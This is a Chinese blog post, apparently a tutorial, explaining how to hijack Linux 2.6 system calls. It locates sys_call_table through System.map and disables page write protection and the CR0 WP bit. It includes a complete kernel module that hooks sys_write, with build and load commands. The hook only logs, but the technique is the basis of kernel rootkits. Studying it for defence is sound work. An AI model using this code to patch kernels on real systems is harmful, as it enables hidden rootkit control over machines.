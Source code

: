 ```yaml
---
layout: post
title: "syscall hijacking:kernel 2.6 systems"
description: ""
category: 技术研究
tags: [kernel]
---
```

{% include JB/setup %}

这篇文章会详细的介绍如何劫持系统调用.文章中讨论的重点是如何绕过内核的保护和cpu的"保护模式".

## 访问系统调用表 ##

内核版本2.4以前的rootkit在2.6及以上的内核里是无法运行的.这是因为2.6以后,"sys_call_table"无法导出了,也就没有办法直接访问到.而且"sys_call_table"所在的内存页具有写保护,下面这种方式也是没法访问的:


	extern void *sys_call_table[];
	...
	sys_call_table[__NR_syscall] = pointer

不过这个表终归是在内存里,只要我们知道了它的内存地址,就可以通过一个简单的指针直接访问.有很多种办法可以获取到这个地址,最简单的就是查找"/boot"目录下的"System.map"文件了.这个文件是内核编译的时候创建的,它包含了内核使用的所有代号和想对应的地址.

这个文件的内容大致如下:

	spaccio@spaccio-laptop:~$ cat /boot/System.map-2.6.35-23-generic
	...
	c018d140 t cgroup_remount
	c018d260 T cgroup_path
	c018d310 t allocate_cg_links
	c018d410 t find_css_set
	c018d7d0 T cgroup_attach_task
	c018da40 T cgroup_clone
	c018dcc0 t cgroup_tasks_write
	c018dd90 t cgroup_release_agent
	c018df50 t proc_cgroup_show
	c018e180 t cgroup_pidlist_find
	c018e320 t cgroup_write_event_control
	c018e610 t pidlist_allocate
	c018e640 t pidlist_array_load
	...


内容很多,不过我们只对"sys_call_table"的内容感兴趣:

	spaccio@spaccio-laptop:~$ cat /boot/System.map-2.6.35-23-generic | grep sys_call_table
	c05d2180 R sys_call_table

## 绕过内核的写保护 ##

现在我们得到了系统调用表的地址,不过如果大家细心的话会发现"grep"命令的输出中有一个"R"的标志,它代表了这个地址是"只读的".

事实上内核在这个只读的区域内存储了一些结构,这样子就可以防止这些结构被修改而导致系统的不稳定.所以我们想要修改这些结构的话首先要把它设置成"读写"模式.

幸运的是内核已经给我们提供了一个特殊的函数来完成这个任务:

	void (*pages_rw)(struct page *page, int numpages) =  (void *) 0xc012fbb0;
	void (*pages_ro)(struct page *page, int numpages) =  (void *) 0xc012fe80;

"pages\_rw"函数设置页面为写模式, "page\_ro"设置页面为读模式.但是这两个函数的参数为页面的虚拟地址.我们可以使用"virt\_to\_page()"这个函数.这个函数可以把内核访问的页面物理地址转换为页面的虚拟地址.为了使用这两个函数,我们首先也需要知道他们的地址.可以从"System.map"文件读取:


	spaccio@spaccio-laptop:~$ cat /boot/System.map-2.6.35-23-generic | grep -e pages_rw -e pages_ro
	c012fbb0 T set_pages_rw
	c012fe80 T set_pages_ro

现在我们就可以通过这种方式来修改"sys_call_table"了

	...
	 
	unsigned long *syscall_table = (unsigned long *)0xc05d2180; 
	 
	...
	 
	void (*pages_rw)(struct page *page, int numpages) =  (void *) 0xc012fbb0;
	void (*pages_ro)(struct page *page, int numpages) =  (void *) 0xc012fe80;
	 
	...
	 
	static int init(void)
	{
	 
	    struct page *_sys_call_page;
	    printk(KERN_ALERT "\nHIJACK INIT\n");
	 
	    _sys_call_page = virt_to_page(&syscall_table);
	 
	    pages_rw(_sys_call_page, 1);
	     
	    // now we can use the sys_call_table
	     
	    ...
	}   


下面是一个样例的代码.(hijack.c)

	#include <linux/init.h>
	#include <linux/module.h>
	#include <linux/kernel.h> 
	#include <linux/errno.h> 
	#include <linux/types.h>
	#include <linux/unistd.h>
	#include <asm/cacheflush.h>  
	#include <asm/page.h>  
	#include <asm/current.h>
	#include <linux/sched.h>
	#include <linux/kallsyms.h>
	 
	unsigned long *syscall_table = (unsigned long *)0xc05d2180; 
	 
	void (*pages_rw)(struct page *page, int numpages) =  (void *) 0xc012fbb0;
	void (*pages_ro)(struct page *page, int numpages) =  (void *) 0xc012fe80;
	 
	asmlinkage int (*original_write)(unsigned int, const char __user *, size_t);
	 
	asmlinkage int new_write(unsigned int fd, const char __user *buf, size_t count) {
	 
	    // hijacked write
	 
	    printk(KERN_ALERT "WRITE HIJACKED");
	 
	    return (*original_write)(fd, buf, count);
	}
	 
	static int init(void) {
	 
	    struct page *sys_call_page_temp;
	 
	    printk(KERN_ALERT "\nHIJACK INIT\n");
	 
	    sys_call_page_temp = virt_to_page(&syscall_table);
	    pages_rw(sys_call_page_temp, 1);
	 
	    original_write = (void *)syscall_table[__NR_write];
	    syscall_table[__NR_write] = new_write;  
	 
	    return 0;
	}
	 
	static void exit(void) {
	 
	    struct page *sys_call_page_temp;
	    
	    sys_call_page_temp = virt_to_page(syscall_table);
	    syscall_table[__NR_write] = original_write;  
	    pages_ro(sys_call_page_temp, 1);
	     
	    printk(KERN_ALERT "MODULE EXIT\n");
	 
	    return;
	}
	 
	module_init(init);
	module_exit(exit);

(((这个方法在ubuntu12.04 Linux litsand-VirtualBox 3.2.0-45-generic-pae #70-Ubuntu SMP Wed May 29 20:31:05 UTC 2013 i686 i686 i386 GNU/Linux 测试失败.centos 5.4上system.map直接没有这两个函数的地址 )))

下面是对应的Makefile文件:

	obj-m   := hijack.o
	 
	KDIR    := /lib/modules/$(shell uname -r)/build
	PWD    := $(shell pwd)
	 
	default:
	    $(MAKE) -C $(KDIR) SUBDIRS=$(PWD) modules


可以通过一下命令加载模块:

	spaccio@spaccio-laptop:~$ sudo insmod hijack.ko
	
	
## 绕过CR0保护 ##

有些cpu会把CR(control register)设置成0,代表这保护模式.这种保护模式最早出现在intel的80286上.这个标志位也叫做wp-bit.可以通过一下方式来验证.

	spaccio@spaccio-laptop:~$ cat /proc/cpuinfo | grep wp
	wp      : yes
	wp      : yes

详细的CR0资料可以参考[wiki](http://en.wikipedia.org/wiki/Control_register#CR0).如果WP设置为1,那么cpu是写保护模式.设置为0的时候是读写模式.

如果cpu处于写保护模式,那么我们尝试加载"hijack.ko"模块的时候,内核把它结束掉.

	spaccio@spaccio-laptop:~$ sudo insmod hijack.ko
	Killed
	
所以我们把这个标志位设置为0就可以读写内存页面了(包括系统调用表).内核里提供了如下函数修改CR0


#define read_cr0 () (native_read_cr0 ())
#define write_cr0 (x) (native_write_cr0 (x))

这两个native read/write函数的定义如下:

	static inline unsigned long native_read_cr0 (void)
	{
	         unsigned long val;
	         asm volatile("movl %%cr0,%0\n\t" :"=r" (val));
	         return val;
	}
	 
	static inline void native_write_cr0 (unsigned long val)
	{
	         asm volatile("movl %0,%%cr0": :"r" (val));
	}

"read_cr0"函数返回寄存器CR0的值,"write_cr0"函数设置这个寄存器的值.
